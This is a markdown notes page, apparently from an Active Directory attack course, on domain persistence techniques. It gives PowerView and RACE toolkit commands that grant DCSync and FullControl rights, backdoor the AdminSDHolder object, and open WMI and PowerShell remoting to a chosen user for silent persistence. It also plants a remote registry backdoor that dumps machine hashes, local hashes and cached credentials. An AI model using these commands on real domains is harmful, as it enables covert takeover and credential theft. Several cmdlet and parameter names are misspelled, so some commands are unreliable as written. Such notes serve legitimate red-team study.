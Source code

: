 ```yaml
---
category: Uncategorized
tags: []
---
```

#powershell
- With DA privs, the ACL of the domain root can be modified to provide usefull rights  like FullControl or the ability to run DCSync.
```powershell
# Give yourself Fullcontrol over the root domain object
Add-ObjectAcl -TargetDisguishedName 'DC=mydomain,DC=local' -PrincipalSamAccountName doctordragon -Rights All -Verbose
# Give yourself DCSync rights over the root domain object
Add-ObjectAcl -TargetDisguishedName 'DC=mydomain,DC=local' -PrincipalSamAccountName doctordragon -GUIDRight DCSync -Verbose
```
# AdminSDHolder
- An object that holds a blueprint of ACLs for certain built-in privileged group called Protected Groups
- A Security Descriptor Propagator (SDPROP) runs every hour and overwrites the ACL from this container to all the member of the protected group.
### Protected Groups
- Account Operators
- Backup Operators
- Server Operators
- Print Operators
- Domain Admins
- Replicator
- Enterprise Admins
- Domain Controllers
- Read-only Domain Controllers
- Schema Admins
- Administrators
#### Well Known Groups for Abuse
- Account Operator - Cannot modify DA/EA/BA groups. Can modify nested groups within these groups
- Backup Operator - Backup GPO, edit or add SID of controlled account to a privileged group and restore
- Server Operators - Run a command as SYSTEM (using disabled browser service)
- Print Operator - copy ntds.dit backup, load device drivers
### AdminSDHolder Abuse
- If we can add our user to the AdminSDHolder object and give ourselves full control, the ACLs will propagate to all the protected objects and we will have full control over the protected objects.
```powershell
# Powerview module to add ACL to the AdminSDHolder group
Add-DomainObjectAcl -TargetIdneitity 'CN=AdminSDHolder, CN=System, DC=dollarcorp, DC=moneycorp, DC=local' -PrincipalIdenitty student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# We can change all to be ResetPassword,WriteMembers
# Run SDPropagator
Invoke-SDPrpagator -timeoutMinutes 1 -showProgrss -Verbose

# We can veryfiy the domain admin privs using powerview
Get-DomainObjectAcl -Identity 'Domain  Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"} 
``` 
# Securable Objects
### Security Descriptor
- The SDDL (Security Descriptor Definition Language) defines the format used to descibe a security descriptor. SDDL uses ACE string for SACL and DACL.
```powershell
ace_type;ace_flag;rights;object_guid;inherit_object_guid;accountSID
```

- By default, reguars users can't use remote WMI or Powershell remoting.
- We can edit the security descriptor or the remote WMI and DCOM Object to provide ourselves full control over those object which can let us run WMI and DCOM remotely. This can be done by giving ourselves rights to connect to DCOM and rights to the namespace.
1. DCOM: Component Serivces -> My Computer ->Properties ->  COM Security -> Edit Links -> Add User
2. WMI: Computer Management -> WMI Control -> Properties -> Security -> Add User
- This is useful for maintaining very silent persistence, as this will only result in a normal logon in the DC logs, along with every other user logons.
This can be done by using the RACE toolkit
```powershell
Set-RemoteWMI -SamAccountName studentx -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose

Set-RemotePSRemoting -SamAccountName studentx -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose

```
# Remote Registry
As a domain admin, we can use the `RACE` toolkit, to modify some registry keys, so that a regular user can:
- Retrieve machine account hash.
- Retrieve local account hash.
- Retrieve domain cached credentials.
```powershell
# Modify Regsitry keys
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee drdragon -verbose

# retrieve machine accout hash
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
Get-RemoteCachedCrednetials -ComputerName dcorp-dc -Verbose
```
